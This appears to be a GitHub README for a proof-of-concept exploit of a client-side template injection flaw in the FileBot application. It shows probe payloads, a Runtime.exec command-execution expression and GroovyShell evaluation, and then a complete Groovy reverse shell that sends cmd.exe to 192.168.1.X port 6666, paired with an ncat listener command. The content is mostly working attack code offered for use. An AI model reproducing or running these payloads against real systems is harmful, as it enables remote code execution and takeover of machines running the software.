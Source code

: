 # FileBot_CSTI_PoC
FileBot Client Side Template Injection - ACE/Rev Shell PoC








## Initial Testing

```{{7*7}}```

![image](https://github.com/user-attachments/assets/3a52a280-c553-4e50-a4e9-5d062ef6842d)


```{{7/0}}```

![image](https://github.com/user-attachments/assets/b7f54b29-5105-496b-ab7f-5d5b77ff1255)


```{"foo".toUpperCase()}```

![image](https://github.com/user-attachments/assets/cdd60f92-17ff-4ca9-99ae-bb5071bb3a24)


## Determine the backend language to be Apache Groovy

```java
${T(java.lang.Runtime).getRuntime().exec('whoami')}
```
![image](https://github.com/user-attachments/assets/78055dcd-ba25-4154-bfa4-68a8f819950a)

![image](https://github.com/user-attachments/assets/5bcdc26f-5465-40d6-8546-ca2e611ba179)


## More Testing

```java
{def shell = new GroovyShell()  }
```

![image](https://github.com/user-attachments/assets/e7d6c3a7-b16d-4989-85fa-805c5e686acd)


```java
{def shell = new GroovyShell()                           
def result = shell.evaluate '3*5'}
```

![image](https://github.com/user-attachments/assets/99230eab-3a31-4424-94ed-ec21dbed59cb)



## Reverse Shell

```java
{String host="192.168.1.X";
int port=6666;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();}
```

![image](https://github.com/user-attachments/assets/fd5f8741-2510-4072-bdff-c752a018b81c)


```bash
ncat.exe -lvnp 6666
```

![image](https://github.com/user-attachments/assets/d40a6aa4-0498-47fa-8cf0-6bab2a24dac6)

